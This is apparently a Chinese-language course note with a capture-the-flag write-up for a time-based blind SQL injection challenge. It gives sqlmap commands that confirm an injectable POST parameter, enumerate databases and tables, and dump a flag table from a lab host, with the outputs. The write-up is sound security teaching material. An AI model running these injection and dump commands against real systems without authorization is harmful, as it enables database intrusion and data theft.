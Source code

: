 ```yaml
---
created: 2025-04-07T19:20:00+08:00
modified: 2025-04-28T19:05:53+08:00
tags:
  - PhD/Course/Systems_Security
title: 第(8)周-SQL注入与凭据访问-攻击-SQL 5
---
```


> [!QUESTION]
> 本题考察通过时间盲注 (Time-Based Blind SQL Injection) 技术绕过关键字过滤, 利用服务器响应时间的差异提取数据库敏感信息并获取 FLAG. 学生需掌握时间盲注原理, 编写自动化脚本逐步爆破数据库名、表名、列名, 最终提取 FLAG.

#### **解题步骤**

##### **1. 确认注入点**

使用 `sqlmap` 检测 `POST` 参数 `search` 是否存在时间盲注漏洞:

```sh
sqlmap --url="http://e6347821-25f1-4422-bdea-148a000b63fb.1.2024.thudart.com/index.php" --method="POST" --data="search=answer" --technique="T"
```

**结果:** 确认 `search` 参数存在时间盲注漏洞, 后端数据库为 **MySQL**..

##### **2. 爆破数据库名**

通过 `--dbs` 参数获取所有数据库名:

```sh
sqlmap [...] --dbs
```

**结果:** 发现两个数据库:

```
[*] information_schema
[*] user_data
```

##### **3. 爆破表名**

指定目标数据库 `user_data`, 使用 `--tables` 获取表名:

```sh
sqlmap [...] --tables -D "user_data"
```

**结果:** 发现两个表:

```
+-------+
| ff1lg |
| info  |
+-------+
```

##### **4. 提取目标表数据**

对可疑表 `ff1lg` 使用 `--dump` 导出数据:

```sh
sqlmap [...] --dump -D "user_data" -T "ff1lg"
```

**结果:** 成功提取 FLAG:

```
+----+--------------------------------------+
| id | flag                                 |
+----+--------------------------------------+
| 0  | f3978751-f792-4498-8f27-08afc790371a |
+----+--------------------------------------+
```
